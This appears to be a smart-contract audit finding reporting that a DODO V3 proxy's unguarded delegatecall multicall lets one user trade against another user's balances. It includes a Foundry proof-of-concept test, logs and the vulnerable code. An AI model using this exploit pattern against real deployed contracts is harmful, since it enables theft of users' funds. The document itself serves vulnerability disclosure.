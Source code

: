 ravikiran.web3

high

# Multicall allows anyone to transaction on other user's balances.

## Summary
Multi call is a delegate Call that is not properly guarded and opens a huge vulnerability letting any one perform transaction on others account via this contract. 

## Vulnerability Detail
Using multicall, any one can call any function exposed on this contract on some one else behalf which is a huge vulnerability.

**Below is the POC to demonstrate the vulnerability.**

```solidity
 function testPreformOnOtherUserAccount() public {
        makerDepositETH();

        uint256 beforeBalance2 = user1.balance;
        uint256 beforeBalance3 = token3.balanceOf(user1);
        console2.log("user1 Eth balance:", beforeBalance2);
        console2.log("user1 Token balance:", beforeBalance3);

        // construct swap bytes data
        SwapCallbackData memory swapData;
        swapData.data = "";
        swapData.payer = user1;

        bytes memory swapDataBytes = abi.encodeWithSignature(
            "sellTokens("
            "address,"
            "address,"
            "address,"
            "address,"
            "uint256,"
            "uint256,"
            "bytes,"
            "uint256"
            ")", 
            address(d3MM),
            user1,
            address(token3), 
            _ETH_ADDRESS_, 
            12 ether, 
            0, 
            abi.encode(swapData),
            block.timestamp + 1000
        );

        // construct multicall data
        bytes[] memory mulData = new bytes[](1);
        mulData[0] = swapDataBytes;
 ```
Note how in the below calls, the caller is user3, but, he is calling multicall for user 1 and update the user 1's balances.
**User 3 is operating on User 1's account**
```solidity     
        vm.startPrank(user3);
        d3Proxy.multicall(mulData);
        vm.stopPrank();
```
Note how user3 was able to successfully update the ether balance and Token3 balance of user1.
```solidity
        uint256 afterBalance2 = user1.balance;
        uint256 afterBalance3 = token3.balanceOf(user1);

        console2.log("user 1 eth:", afterBalance2 - beforeBalance2);
        console2.log("user 1 token:",beforeBalance3 - afterBalance3 );
    }
```

**Foundry Logs:**

Logs:
  user1 Eth balance: 3000000000000000000
  user1 Token balance: 500000000000000000000
  user 1 eth: 996775265755655500
  user 1 token: 12000000000000000000

## Impact
Loss of funds, lack of access control as any one could operate on other's account with this vulnerability and transact on this behalf.

## Code Snippet
https://github.com/sherlock-audit/2023-06-dodo/blob/main/new-dodo-v3/contracts/DODOV3MM/periphery/D3Proxy.sol#L56C5-L69

The below implementation of delegatecall can be very dangerous as it opens up the contract and storage for anyone to operate on it.

```solidity

function multicall(bytes[] calldata data) public payable returns (bytes[] memory results) {
        results = new bytes[](data.length);
        for (uint256 i = 0; i < data.length; i++) {
            (bool success, bytes memory result) = address(this).delegatecall(data[i]);

            if (!success) {
                assembly {
                    revert(add(result, 32), mload(result))
                }
            }

            results[i] = result;
        }
    }
```

## Tool used

Manual Review

## Recommendation
implement restriction on how the mulitcall can be made, implement logic using modifiers to limit on whose account such calls can be made.
